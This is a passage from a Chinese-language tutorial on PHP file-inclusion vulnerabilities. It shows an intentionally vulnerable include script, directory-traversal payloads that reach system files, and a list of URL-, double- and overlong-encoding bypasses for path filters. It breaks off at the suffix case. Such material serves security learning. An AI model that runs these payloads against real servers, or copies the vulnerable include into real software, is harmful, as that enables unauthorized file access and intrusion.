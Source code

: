 这样就很“难”直接去包含前面提到的种种文件。

### 指定前缀
先考虑一下指定了前缀的情况吧。测试代码:

```php
<?php
	$file = $_GET['file'];
	include '/var/www/html/'.$file;
?>
```

#### 目录遍历
```
?file=../../../../../../../../../var/lib/locate.db ?file=../../../../../../../../../var/lib/mlocate/mlocate.db
# linux中这两个文件储存着所有文件的路径，需要root权限
```

现在在`/var/log/test.txt`文件中有php代码`<?php phpinfo();?>`，则利用`../`可以进行**目录遍历**，比如我们尝试访问：

```
include.php?file=../../log/test.txt
```

则服务器端实际拼接出来的路径为：`/var/www/html/../../log/test.txt`，也即`/var/log/test.txt`。从而包含成功

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.inhqxe39yf_1536892695)

#### 编码绕过
服务器端常常会对于`../`等做一些过滤，可以用一些**编码**来进行绕过。下面这些总结来自《白帽子讲Web安全》。
* 利用url编码
	* `../`
		* `%2e%2e%2f`
		* `..%2f`
		* `%2e%2e/`
	* `..\`
		* `%2e%2e%5c`
		* `..%5c`
		* `%2e%2e\`
* 二次编码
	* `../`
		* `%252e%252e%252f`
	* `..\`
		* `%252e%252e%255c`
* 容器/服务器的编码方式
	* `../`
		* `..%c0%af`
			* 注：[Why does Directory traversal attack %C0%AF work](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
		* `%c0%ae%c0%ae/`
			* 注：java中会把”`%c0%ae`”解析为”`\uC0AE`”，最后转义为ASCCII字符的”`.`”（点）
			* Apache Tomcat Directory Traversal
	* `..\`
		* `..%c1%9c`
### 指定后缀
接着考虑**指定后缀**的情况。测试代码:
